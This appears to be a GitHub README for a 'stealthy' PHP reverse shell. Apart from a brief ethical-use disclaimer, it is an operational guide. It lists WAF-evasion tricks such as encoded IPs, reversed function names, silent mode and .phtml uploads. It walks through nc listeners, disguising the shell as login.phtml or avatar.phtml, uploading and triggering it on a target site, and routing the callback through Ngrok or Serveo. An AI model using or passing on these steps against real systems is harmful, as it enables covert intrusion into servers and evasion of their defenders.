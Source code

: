 ## PHP Reverse Shell (Powerful & Stealthy)
This is a powerful and stealthy PHP reverse shell designed for ethical hacking and penetration testing.
It quietly connects back to your machine reliably without showing any output.

## ⚠️ Disclaimer
This PHP reverse shell is developed strictly for educational and authorized penetration testing purposes only.   
The developer is not responsible for any misuse, damage, or illegal activity performed using this reverse_shell.     
Use responsibly and only on systems you own or have explicit permission to test. Unauthorized access is illegal and punishable by law.
## Features
- IP and shell command are Base64 encoded for stealth and easy customization

- Function names are reversed to bypass WAF and security filters

- Silent mode — no output displayed to avoid detection

- Automatically reconnects if connection drops

- Can run as a background daemon (if server supports)

- Works on most PHP-enabled servers

- Supports tunneling services like  Ngrok, Serveo

- Upload with `.phtml` extension to bypass some filters

  ## How to Use
**1. Start a listener on your machine**
```bash
nc -lvnp 4444
```
**2. Encode your IP or hostname in Base64**

Use this simple command:

```bash
echo "your_ip_or_hostname" | base64
```
**Example:**
```bash
echo "192.168.1.5" | base64
```
Copy the output and replace the $ip_b64 value in the PHP script.

**3. Update your PHP reverse shell script:**

Change these lines with your Base64 encoded IP/hostname and port:

```php
$ip_b64 = 'YOUR_BASE64_ENCODED_IP_OR_HOSTNAME';
$port = YOUR_LISTENER_PORT;
```
**4. Rename the file and upload**

Rename the file to something less suspicious, for example:

- `login.phtml`

- `avatar.phtml`

- `update.phtml`

Using the `.phtml` extension helps the file run on some servers that block `.php`.

Upload this file to the target website where file uploads are allowed.

**5. Trigger the reverse shell**

Open the uploaded file in a browser:

```arduino
http://target.com/uploads/login.phtml
```
Once opened, your listener will get a reverse shell connection.

## Using Tunneling (When Your IP is Not Public)
If you're using mobile data or behind a router (NAT), your IP might not be public.
In that case, the reverse shell can't reach your machine directly.

To fix this, use TCP tunneling tools like Ngrok or Serveo.

#### Ngrok (Recommended)
Install Ngrok   
Run this command:

```bash
ngrok tcp 4444
```
It will show something like:

```nginx
Forwarding tcp://4.tcp.ngrok.io:18900
```
**Update your PHP reverse shell script:**

```php
$ip_b64 = base64_encoded of 4.tcp.ngrok.io;
$port = 18900;
```
**Start your listener:**

```bash
nc -lvnp 4444
```
#### Serveo

**Run this command:**

```bash
ssh -R 0:localhost:4444 serveo.net
```
**It will say something like:**

```csharp
Forwarding TCP connections from serveo.net:46603
```
**Update your PHP reverse shell script:**

```php
$ip_b64 = base64_encoded of serveo.net;
$port = 46603;
```
**Start your listener:**

```bash
nc -lvnp 4444
```
